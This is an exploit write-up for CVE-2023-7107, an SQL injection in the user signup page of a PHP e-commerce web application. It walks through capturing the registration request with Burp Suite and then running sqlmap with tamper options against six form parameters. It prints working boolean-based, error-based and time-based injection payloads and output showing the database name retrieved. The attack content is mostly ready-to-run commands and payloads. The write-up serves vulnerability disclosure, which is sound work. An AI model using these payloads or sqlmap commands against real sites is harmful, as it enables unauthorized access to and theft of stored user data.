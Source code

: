 # CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Exploit Title:** CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7107

## References: 
+ **CVE-2023-7107:** https://vuldb.com/?id.249002
+ https://www.cve.org/CVERecord?id=CVE-2023-7107
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7107

##  Description:
E-Commerce Website 1.0 allows SQL Injection via parameters 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' in "/Electricks/Electricks-shop/pages/user_signup.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill the the all form and click Create Account button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 427
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sdqvs3v86m3s0vdqik7c5uah4g
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

submit=test&address=test&username=Test&email=test%40example.com&lastname=Test&middlename=Test&firstname=Test&contact=test&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p firstname --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4675586a WHERE 8114=8114 AND 5578=5578)||'&contact=test&password=Pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x59676a78 WHERE 1465=1465 AND (SELECT 6021 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(6021=6021,1))),0x717a707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&contact=test&password=Pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4a6a6e4b WHERE 2213=2213 AND (SELECT 8358 FROM (SELECT(SLEEP(5)))jkvt))||'&contact=test&password=Pass
---
[22:05:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:05:28] [INFO] fetching current database
[22:05:28] [INFO] resumed: 'electricks'
current database: 'electricks'
```

+ current database: `electricks`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/bfffd456-06bc-42e9-b55e-ee361a6b8fb6)

+ Try to dump the db on other 5 parameters:
```
python sqlmap.py -r r.txt -p middlename --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p email --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p address --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p contact --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```
